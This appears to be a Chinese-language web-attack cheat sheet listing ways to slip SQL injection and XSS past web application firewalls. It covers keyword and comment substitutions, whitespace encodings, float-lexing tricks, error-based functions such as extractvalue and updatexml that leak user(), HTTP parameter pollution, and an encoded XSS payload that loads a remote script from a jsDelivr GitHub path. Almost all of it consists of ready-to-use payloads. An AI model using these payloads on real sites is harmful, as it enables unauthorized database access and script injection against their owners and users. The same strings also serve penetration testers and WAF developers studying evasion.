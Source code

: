 1. AND 等价于 `&&`
2. OR 等价于 `||`
3. `=` 等价于 like
4. `+` 代替 空格
5. sleep() 等价于 benchmark()
6. mid()substring() 等价于 substr()

最直白的 payload 类似 `<script> alert('xss'); </script>`,但是你可以用 `<script src=来远程加载脚本,并绕过防护`

```
`?search=naive%22%3E%20%3Cmeta%20name=%22referrer%22%20content=%22never%22%20%3E%20%3Cscript%20src=%22https://cdn.jsdelivr.net/gh/TomAPU/xsstest/test.js%22%3E%3C/script%3E%20%3C!--`
```

**注释符绕过**

1. `/**/` 与 `/*!*/` ,还可以代替空格
2. `select/*@a?v|ddd--n*/xxxxx/*@a?v|ddd--n*/from/*a?v|ddd--n*/xxxx`由于waf解析注释符耗费性能,因此这种方法结合fuzz能找到漏网之鱼
3. emoji 表情
4. -- 与 #

```
Union 注入时 `union select 1 from 2` 替换成 `union/*fuckyou//*a*//*!select*/1/*fuckyou//*a*//*!from*/2`

order by 测试时直接把空格换成 `/**//**/`
```

**空白符绕过**

1. 正则表达式空白符: %09,%0a,%0b,%0D,%20
2. mysql空白符: %09,0A,%0b,%0D,%20,%0C,%A0,/**/

**浮点数词法解析**

1. select * from xxx where id=8E0union select 1,2,3,4,5,6,7E0from xxxx
2. select * from xxx where id=8.0union select 1,2,3,4,5,6,7.0from xxxx
3. select * from xxx where id=8\Nunion select 1,2,3,4,5,6,7 \Nfrom xxxx

**利用不常用报错函数绕过**

1. select extractvalue(1,concat(1,user()));
2. select updatexml(1,concat(1,user()),1);
3. select exp(~(select * from(select user())a));

**hpp 方式**

HPP 是指 HTTP 参数污染.形如以下形式:`?id=1&id=2&id=3` 的形式,此种形式在获取 id 值的时候不同的 web 技术获取的值是不一样的.
假设提交的参数即为:
```
id=1&id=2&id=3

Asp.net + iis:id=1,2,3
Asp + iis:id=1,2,3
Php + apache:id=3

形如 index.php?a=[whitelist]&a=select 1 union select 2
```
